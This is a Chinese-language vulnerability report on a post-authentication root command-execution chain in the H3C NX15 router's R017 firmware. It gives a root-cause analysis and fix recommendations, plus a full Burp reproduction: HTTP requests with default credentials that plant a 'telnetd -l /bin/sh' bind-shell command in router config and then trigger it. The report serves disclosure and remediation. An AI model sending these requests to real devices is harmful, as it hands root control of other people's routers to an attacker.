








# H3C NX15 R017 `uci.add` + `reload.reload_config` + `smartwaretrack.exec` 配置污染 root RCE 链报告

## 一、漏洞概述

H3C NX15 路由器 NX15V100R017 固件对外提供 `POST /api/esps` 接口。认证通过后，外部请求会进入 `/www/api`，随后由 Lua 协议转换层将请求中的 `object`、`method`、`param` 直接映射为 ubus 的 `path`、`func`、`args`。由于该映射缺少业务级对象白名单限制，攻击者可通过 Web 接口直接访问原始 ubus 对象 `uci` 与 `reload`。

本次确认的一条独立 root RCE 链如下：

1. 攻击者调用原始对象 `uci.add` / `uci.commit`，向 `smartwaretrack` 配置写入恶意 section；
2. 恶意 section 的 `exec` 字段被污染为攻击者指定命令；
3. 攻击者再调用原始对象 `reload.reload_config`；
4. 后端 `reload` 服务执行 `/sbin/config_reload <section>`；
5. `/sbin/config_reload` 固定加载 `smartwaretrack`，读取对应 section 的 `exec` 字段，并通过 `$cmd` 执行；
6. 最终以 root 权限执行攻击者命令。

该漏洞不是“在 `reload.reload_config` 参数中直接注入命令”，而是**原始对象暴露 + 配置污染 + 合法 reload 流程触发**的组合链。动态验证已成功拉起临时 shell，并得到 `uid=0(root)`，因此可定性为一条 **后认证、配置污染型、root 远程命令执行漏洞**。

---

## 二、影响范围

- 厂商：H3C
- 产品：H3C NX15 路由器
- 影响版本：NX15V100R017 / R017
- 漏洞类型：原始 ubus 对象暴露 / 配置污染 / root 远程命令执行
- 认证要求：需要管理员 Web 会话
- 外部接口：`POST /api/esps`
- FastCGI 内部路径：`PATH_INFO=/esps`
- 前端处理二进制：`/www/api`
- 涉及对象：`uci`、`reload`
- 受污染配置：`smartwaretrack`
- 触发组件：`/usr/bin/reload`、`/sbin/config_reload`
- 影响结果：root 权限任意命令执行
- 验证结论：Confirmed / Exploited

---

## 三、请求分发与完整漏洞链路

### 1. 认证与入口

攻击者首先通过登录接口获取管理员 session：

```text
POST /api/login/auth
```

后续所有 `POST /api/esps` 请求均需携带：

```text
AUTHENTICATION: <session>
```

### 2. `/api/esps` 到原始 ubus 对象的分发链

外部请求的处理链路如下：

```text
POST /api/esps
  -> /www/api
  -> PATH_INFO=/esps
  -> FCGI_EspsProcess
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua
  -> ubus call <object> <method> <param>
```

由于 `magic_link` 模式下：

- `object` 直接映射为 ubus `path`
- `method` 直接映射为 ubus `func`
- `param` 直接映射为 ubus `args`

所以攻击者可从 `/api/esps` 直接调用：

- `uci.add`
- `uci.commit`
- `uci.delete`
- `reload.reload_config`

等原始高危对象/方法。

### 3. 组合利用链

完整利用顺序如下：

1. 攻击者登录 Web 管理后台，获取管理员 session。
2. 调用 `POST /api/esps`，提交：

   ```text
   object = uci
   method = add
   ```

   向 `smartwaretrack` 中写入恶意 section，例如：

   ```text
   config ctf 'pocx'
       option exec 'telnetd -p2351 -l /bin/sh'
   ```

3. 调用：

   ```text
   object = uci
   method = commit
   ```

   保存配置污染结果。

4. 调用：

   ```text
   object = reload
   method = reload_config
   ```

   其中参数可完全使用合法值：

   ```json
   {
     "config": "pocx",
     "method": "reload",
     "status": 1
   }
   ```

5. 后端 `reload` 服务执行 `/sbin/config_reload pocx`。
6. `/sbin/config_reload` 固定加载 `smartwaretrack`，读取 section `pocx` 的 `exec` 字段并执行。
7. 恶意命令以 root 权限运行，攻击者获得设备控制权。

需要强调的是：

- `reload.reload_config` 的 `config` 参数在本链中不是配置文件名；
- 它实际是 `smartwaretrack` 中要被查找的 **section 名**。

---

## 四、根因分析

### 1. `/www/api` 在认证后将 `/esps` 请求交给 Lua/ubus 层

`www/api` 二进制的关键逻辑如下：

- `main`
  - `0x402014`：读取 `PATH_INFO`
  - `0x402380`：读取 `HTTP_AUTHENTICATION`
  - `0x402394`：调用 `FCGI_UserAuth(...)`
  - `0x4024f0`：当 `PATH_INFO` 以 `"/esps"` 开头时进入 `FCGI_EspsProcess(...)`

- `FCGI_EspsProcess`
  - `0x405078`：读取 HTTP body
  - `0x4050dc`：拼接

  ```text
  lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  ```

  - `0x405424`：通过 `popen` 执行上述 Lua 协议转换

这说明：

- `/api/esps` 路由位于认证检查之后；
- 认证后的请求体会被交给 Lua 解析并映射为 ubus 调用；
- 这为原始对象访问提供了统一入口。

### 2. `magic_link` 模式允许外部直接指定 ubus `path` / `func` / `args`

固件路径：

- `/usr/lib/lua/protol_cvt.lua`
- `/usr/lib/lua/magic_link/magic_link.lua`

`protol_cvt.lua` 关键逻辑：

- 第 `25-27` 行：解码请求 JSON
- 第 `50-56` 行：在 `magic_link` 模式下直接处理整个请求数组
- 第 `77` 行：`local ubuscmd = methodObj.find_ubus_cmd(method_para_info)`
- 第 `89` 行：`local conn = ubus.connect()`
- 第 `117` 行：`data.result = conn:call(v.path, v.func, v.args)`

`magic_link.lua` 关键逻辑：

- 第 `12-25` 行：遍历请求数组
- 第 `25` 行：

```lua
ubus_cmd[cmdidx] = {["id"]=v.id,["path"]=tostring(v.object),["func"]=tostring(v.method), ["args"]=v.param, ["type"]=cmdtype}
```

这说明：

- 外部传入的 `object` 直接成为 ubus `path`
- 外部传入的 `method` 直接成为 ubus `func`
- 外部传入的 `param` 直接成为 ubus `args`

因此，当前问题并不只是“某个业务对象参数校验不足”，而是：

- 认证后的 `/api/esps` 可直接打到原始系统对象 `uci` 与 `reload`

### 3. `smartwaretrack` 配置本身设计为可携带 `exec`

静态默认配置文件位于：

- `/etc/smartwaretrack`

文件中存在多处合法 `exec` 配置，例如：

- 第 `15` 行：`option exec 'wifi'`
- 第 `18` 行：`option exec 'wifi down band2g'`
- 第 `21` 行：`option exec 'wifi up band2g'`
- 第 `48` 行：`option exec '/usr/bin/sync.sh'`
- 第 `96` 行：`option exec '/usr/bin/vserver reload'`

这说明：

- `exec` 不是异常字段，而是设计上就会被后端消费并执行；
- 一旦攻击者能污染 `smartwaretrack`，后续命令执行链天然成立。

### 4. `smartwaretrack` 的静态来源与运行时路径不同

启动脚本 `/etc/init.d/boot` 中：

- 第 `10-18` 行：

```sh
cp /etc/smartwaretrack /etc/config/
rm -f /etc/smartwaretrack
```

因此应区分：

- 静态固件中的默认配置模板：`/etc/smartwaretrack`
- 运行时 UCI 实际使用的配置路径：`/etc/config/smartwaretrack`

这也是为什么攻击者通过原始 `uci.add` / `uci.commit` 能够污染运行时配置。

### 5. `/sbin/config_reload` 固定加载 `smartwaretrack` 并执行 `exec`

`/sbin/config_reload` 的关键逻辑如下：

- 第 `5` 行：

```sh
config_load smartwaretrack
```

- 第 `6-8` 行：

```sh
config_get init "$1" init
config_get exec "$1" exec
config_get affects "$1" affects
```

- 第 `20` 行：

```sh
[ -n "$exec" ] && reload_exec "$exec"
```

`reload_exec()` 中：

- 第 `27-34` 行：

```sh
local cmd="$1";
[ -n "$cmd" ] && {
    echo "exec $cmd" >/dev/console
    $cmd >/dev/null 2>&1
}
```

这里的 `$cmd` 执行就是本链的最终 sink。

### 6. `reload.reload_config` 的 `config` 参数实际是 section 名

`/sbin/config_reload` 结尾：

- 第 `60-61` 行：

```sh
config="$1";
apply_config $config $config
```

由于脚本一开始已经固定：

```sh
config_load smartwaretrack
```

所以这里传入的：

```text
config = pocx
```

实际含义是：

- 在 `smartwaretrack` 中查找名为 `pocx` 的 section
- 读取其 `init` / `affects` / `exec`
- 若存在 `exec`，则进入 `reload_exec "$exec"`

因此，当前链的触发参数虽然看起来完全合法，但其语义是：

- “选择攻击者先前污染好的 `smartwaretrack` section”

而不是“直接把命令塞进 reload 参数”。

### 7. `reload.reload_config` 的真实提供者应指向 `/usr/bin/reload`

需要与 `/usr/libexec/rpcd/esps.reload` 区分开来。

当前链对应的更直接证据是：

- `/etc/init.d/reload` 第 `11-13` 行：

```sh
procd_open_instance
procd_set_param command /usr/bin/reload
procd_set_param respawn
```

- `/usr/bin/reload` 字符串中可见：
  - `/sbin/config_reload %s`
  - `reload_config`
  - `config`
  - `method`
  - `status`

这说明：

- 原始对象 `reload.reload_config` 更直接对应 `reload` 服务与 `/usr/bin/reload`
- 后者再去执行 `/sbin/config_reload <section>`

这条链的执行上下文由系统服务承载，结合动态验证中的 `uid=0(root)`，可支撑 root 执行结论。

### 8. 触发参数本身并不包含注入字符

这条链与直接命令注入的区别在于：

```json
{
  "config": "pocx",
  "method": "reload",
  "status": 1
}
```

本身不需要包含：

- 分号
- `$()`
- 反引号
- 管道符

恶意性来自前一步对 `smartwaretrack.exec` 的配置污染，而不是触发包本身的参数注入。

这说明：

- 即使仅修复 `reload.reload_config` 的参数拼接问题
- 只要仍允许 Web 访问原始 `uci` 写接口和原始 `reload` 对象
- 该组合链仍可能成立

---

## 五、固件内定位路径

以下路径均为固件根文件系统中的内部路径，便于审计定位：

- `/www/api`：FastCGI Web API 二进制，读取 `PATH_INFO` 和 `HTTP_AUTHENTICATION`，处理 `/esps` 路由并启动 Lua 协议转换层。
- `/usr/lib/lua/protol_cvt.lua`：解析 `/api/esps` 请求体，加载 `magic_link` 模块，并发起 ubus 调用。
- `/usr/lib/lua/magic_link/magic_link.lua`：将 `object` / `method` / `param` 直接转换为 ubus `path` / `func` / `args`。
- `/usr/bin/reload`：`reload` 服务二进制，处理 `reload_config` 请求，并执行 `/sbin/config_reload <section>`。
- `/etc/init.d/reload`：使用 procd 启动 `/usr/bin/reload`。
- `/sbin/config_reload`：固定加载 `smartwaretrack`，读取指定 section 的 `exec` 字段并执行。
- `/etc/smartwaretrack`：静态固件中的默认配置模板。
- `/etc/config/smartwaretrack`：运行时 UCI 配置路径，攻击者污染的实际目标。

---

## 六、复现步骤

### 6. 使用 BurpSuite 逐步复现

以下序列已在测试设备上通过 Burp Repeater 实测成功。

约定：

- 目标：`192.168.8.1`
- 默认账号：`admin / admin123`
- 临时 section 名：`pocx`
- 临时 root shell 端口：`2351`
- Burp 会自动更新 `Content-Length`

#### 6.1 登录获取 session

先发送登录请求：

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

从返回 JSON 中提取：

```text
data.session
```

记为：

```text
<SESSION>
```

后续所有 `/api/esps` 请求均携带：

```text
AUTHENTICATION: <SESSION>
```

#### 6.2 可选：先删除旧的 `pocx` section

如果之前已经复现过，为避免脏状态干扰，可先删除旧 section：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"delete","param":{"config":"smartwaretrack","section":"pocx"}}]
```

随后提交删除：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"commit","param":{"config":"smartwaretrack"}}]
```

#### 6.3 使用 `uci.add` 写入恶意 `smartwaretrack` section

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"add","param":{"config":"smartwaretrack","type":"ctf","name":"pocx","values":{"exec":"telnetd -p2351 -l /bin/sh"}}}]
```

该请求的作用是：

- 在 `smartwaretrack` 中创建名为 `pocx` 的 section；
- 将该 section 的 `exec` 字段污染为 `telnetd -p2351 -l /bin/sh`。

#### 6.4 使用 `uci.commit` 保存污染结果

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"commit","param":{"config":"smartwaretrack"}}]
```

此时恶意配置已落盘到运行时 UCI。

#### 6.5 使用合法参数触发 `reload.reload_config`

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"reload","method":"reload_config","param":{"config":"pocx","method":"reload","status":1}}]
```

这里的参数本身不包含注入字符，但会触发：

```text
/sbin/config_reload pocx
```

进而读取并执行：

```text
smartwaretrack.pocx.exec
```

#### 6.6 连接并验证 root shell

发送触发包后，等待 1-2 秒，在终端连接：

```bash
telnet 192.168.8.1 2351
```

连接后执行：

```sh
id
uname -a
```

预期关键输出为：

```text
uid=0(root) gid=0(root)
```

这说明：

- 配置污染成功；
- `reload.reload_config` 触发成功；
- 最终命令以 root 权限执行。

#### 6.7 清理污染 section

复现完成后，建议删除临时 section：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"delete","param":{"config":"smartwaretrack","section":"pocx"}}]
```

然后提交清理：

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"uci","method":"commit","param":{"config":"smartwaretrack"}}]
```

#### 6.8 清理临时 shell

如果 `telnetd` 仍在运行，可在获取到的 shell 中执行：

```sh
ps w | grep 'telnetd -p2351'
kill <PID>
```

### 7. 使用附件 PoC 一键复现

附件 PoC 已实现完整的登录、写入、提交、触发、验证和清理过程：

```bash
python3 poc/postauth_uci_smartwaretrack_exec_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --host 192.168.8.1 \
  --section pocx \
  --port 2351 \
  --cleanup
```

PoC 的关键顺序为：

1. 登录
2. `uci.delete` 清理旧 section
3. `uci.add` 写入恶意 `smartwaretrack` section
4. `uci.commit`
5. `reload.reload_config`
6. 连接 shell 并验证 `uid=0(root)`
7. `uci.delete` + `uci.commit` 清理

预期核心结果：

```text
uid=0(root)
```

### 8. 清理动作

若手工复现，建议至少执行：

1. `uci.delete` 删除恶意 section；
2. `uci.commit` 保存清理结果；
3. 关闭临时 `telnetd` shell。

---

## 七、验证结果

在 NX15V100R017 测试设备上，已成功完成以下验证：

1. 通过 `/api/login/auth` 获取管理员 session；
2. 通过 Burp Repeater 逐包发送 `uci.add`、`uci.commit`、`reload.reload_config` 请求；
3. 通过 `POST /api/esps` 调用原始对象 `uci.add`，向 `smartwaretrack` 写入恶意 section；
4. 通过 `uci.commit` 将恶意 `exec` 成功保存到运行时 UCI；
5. 使用完全合法的 `reload.reload_config` 参数触发后端流程；
6. 后端通过 `/sbin/config_reload` 读取 `smartwaretrack.<section>.exec` 并执行；
7. 成功连接临时 shell，并通过 `id` 验证得到 `uid=0(root)`。

因此，可确认该漏洞具备以下特征：

- 已验证
- 可稳定触发
- 利用链完整
- 权限为 root
- 本质为配置污染触发型 RCE，而非单次请求直接参数注入

---

## 八、危害说明

该漏洞可造成以下安全影响：

- 已认证攻击者获得 root 权限，可执行任意系统命令；
- 攻击者可通过污染系统配置实现持久化命令执行；
- 由于触发请求本身使用合法参数，该链可绕过只针对 reload 参数注入的局部修复；
- 若与未授权账号接管、未授权改密等问题组合，可形成从未授权访问到 root 控制的完整攻击链。

该问题说明：

- `/api/esps` 暴露原始系统对象本身具有高风险；
- 配置型命令执行字段（如 `smartwaretrack.exec`）一旦能被远程写入，将形成高价值后门触发面。

---

## 九、附件

- 报告：`report/postauth_uci_reload_smartwaretrack_exec_chain.md`
- PoC：`poc/postauth_uci_smartwaretrack_exec_rce.py`

---

## 十、修复建议

建议从以下几个层面修复：

1. `/api/esps` 不应直接暴露原始 ubus 对象 `uci`、`reload` 等高危系统对象，应改为业务级安全接口。
2. 对 Web 可调用的对象和方法建立严格白名单，禁止外部任意指定 ubus `path` / `func` / `args`。
3. `smartwaretrack` 等配置中的 `exec` 字段不应由远程配置写接口控制；若必须存在，也应改为固定映射的受控动作，而不是任意命令字符串。
4. `/sbin/config_reload` 不应直接执行配置中的未信任命令；应使用静态映射或受限子命令机制替代 `$cmd`。
5. `reload.reload_config` 应校验允许触发的 section 名和配置来源，不应对攻击者可创建的 section 生效。
6. 审计所有含有 `exec`、`init`、`affects` 或类似命令/脚本触发字段的配置文件，确认是否还能被原始写接口远程污染。
